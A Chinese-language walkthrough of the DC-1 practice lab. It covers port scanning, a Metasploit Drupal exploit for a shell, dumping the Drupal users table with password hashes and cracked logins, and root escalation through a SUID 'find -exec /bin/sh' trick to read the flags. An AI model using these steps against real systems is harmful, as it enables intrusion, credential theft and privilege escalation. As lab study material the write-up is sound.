 # DC1靶场实战

> 将靶场网络模式改为桥接模式

- 使用御剑扫描端口
- ![image-20240915190420050](./assets/image-20240915190420050.png)

- 这里可以确定靶场ip为`192.168.157.152`开放了`22`和`80`端口
- 访问一下80端口
- ![image-20240915190624714](./assets/image-20240915190624714.png)

- 这里发现需要`登录`,我们尝试爆破web目录看看

<img src="./assets/image-20240915191016278.png" alt="image-20240915191016278" style="zoom: 25%;" />

- 这里扫到`/user/`和`/robot.txt`两个目录,访问来看一下
- ![image-20240915191144197](./assets/image-20240915191144197.png)

- 注册一个账户试试,发现不行,尝试爆破也爆破不出来

- 使用`msfconsole`

- ```cmd
  msf6 > search drupal
  ```

  

![image-20240915204022259](./assets/image-20240915204022259.png)

- ```cmd
  #这里测试发现只有2可以
  msf6 > use 2
  msf6 > set rhost 192.168.157.152
  msf6 > run
  
  #如果成功在,输入
  meterpreter > shell
  ```

  ![image-20240915204208372](./assets/image-20240915204208372.png)

![image-20240915204357038](./assets/image-20240915204357038.png)

```cmd
//看看flag1.txt有什么信息
cat flag1.txt
```

![image-20240915204500781](./assets/image-20240915204500781.png)

- 大致意思是让我去找配置文件看看,一个一个的翻,最终在`sites`下的`default`下找到部分php文件,看看

![image-20240915204723801](./assets/image-20240915204723801.png)

![image-20240915205108359](./assets/image-20240915205108359.png)

```cmd
#为了方便查看数据,使用工具
python -c "import pty;pty.spawn('/bin/bash')"
```

![image-20240915210149822](./assets/image-20240915210149822.png)

```cmd
#连接数据库
mysql -u dbuser -p

+--------------------+
| Database           |
+--------------------+
| information_schema |
| drupaldb           |
+--------------------+

+-----------------------------+
| Tables_in_drupaldb          |
+-----------------------------+
| actions                     |
| authmap                     |
| batch                       |
| block                       |
| block_custom                |
| block_node_type             |
| block_role                  |
| blocked_ips                 |
| cache                       |
| cache_block                 |
| cache_bootstrap             |
| cache_field                 |
| cache_filter                |
| cache_form                  |
| cache_image                 |
| cache_menu                  |
| cache_page                  |
| cache_path                  |
| cache_update                |
| cache_views                 |
| cache_views_data            |
| comment                     |
| ctools_css_cache            |
| ctools_object_cache         |
| date_format_locale          |
| date_format_type            |
| date_formats                |
| field_config                |
| field_config_instance       |
| field_data_body             |
| field_data_comment_body     |
| field_data_field_image      |
| field_data_field_tags       |
| field_revision_body         |
| field_revision_comment_body |
| field_revision_field_image  |
| field_revision_field_tags   |
| file_managed                |
| file_usage                  |
| filter                      |
| filter_format               |
| flood                       |
| history                     |
| image_effects               |
| image_styles                |
| menu_custom                 |
| menu_links                  |
| menu_router                 |
| node                        |
| node_access                 |
| node_comment_statistics     |
| node_revision               |
| node_type                   |
| queue                       |
| rdf_mapping                 |
| registry                    |
| registry_file               |
| role                        |
| role_permission             |
| search_dataset              |
| search_index                |
| search_node_links           |
| search_total                |
| semaphore                   |
| sequences                   |
| sessions                    |
| shortcut_set                |
| shortcut_set_users          |
| system                      |
| taxonomy_index              |
| taxonomy_term_data          |
| taxonomy_term_hierarchy     |
| taxonomy_vocabulary         |
| url_alias                   |
| users                       |
| users_roles                 |
| variable                    |
| views_display               |
| views_view                  |
| watchdog                    |
+-----------------------------+

```

user表看起来太乱了,这是一个用户信息表的整理结果：

| UID  | Name       | Password                                                | Email             | Theme | Signature     | Signature Format | Created    | Access     | Login             | Status | Timezone            | Language | Picture | Init              | Data |
| ---- | ---------- | ------------------------------------------------------- | ----------------- | ----- | ------------- | ---------------- | ---------- | ---------- | ----------------- | ------ | ------------------- | -------- | ------- | ----------------- | ---- |
| 0    |            |                                                         |                   |       |               |                  |            | 0          | 0                 | 0      | NULL                | NULL     | 0       | NULL              | NULL |
| 1    | admin      | $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR | admin@example.com |       |               |                  | 1550581826 | 1550583852 | admin@example.com | 1      | Australia/Melbourne | NULL     | 0       | admin@example.com | b:0; |
| 2    | Fred       | $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg | fred@example.org  |       | filtered_html |                  | 1550581952 | 1550582225 | fred@example.org  | 1      | Australia/Melbourne | NULL     | 0       | fred@example.org  | b:0; |
| 3    | 2493770457 | $S$DnZNZu4yy0/kIUleNpqOnpbU0M0vZcaJW/OF3tRogcHZzWdefmpt | 2493770457@qq.com |       | filtered_html |                  | 1726427544 | 0          | 2493770457@qq.com | 0      | Australia/Melbourne | NULL     | 0       | 2493770457@qq.com | NULL |

这是表格的整理信息，包含了用户 ID、名称、密码、邮箱等信息。![image-20240915212959716](./assets/image-20240915212959716.png)



![image-20240915212845109](./assets/image-20240915212845109.png)

```cmd
//账号密码
admin 53cr3t
Fred MyPassword
```

![image-20240915214821230](./assets/image-20240915214821230.png)

```cmd
find flag1.txt -exec whoami \; //查看文件用户权限
find flag1.txt -exec '/bin/sh' \; //以创建者身份回弹shell
find / -name "*flag*"	//找到flag相关文件
```

![image-20240915220435553](./assets/image-20240915220435553.png)

![image-20240915220605453](./assets/image-20240915220605453.png)

```cmd
cat /home/flag4/flag4.txt
```

![image-20240915220709969](./assets/image-20240915220709969.png)

![image-20240915222332372](./assets/image-20240915222332372.png)

```cmd
cat /root/thefinalflag.txt
```

![image-20240915220742240](./assets/image-20240915220742240.png)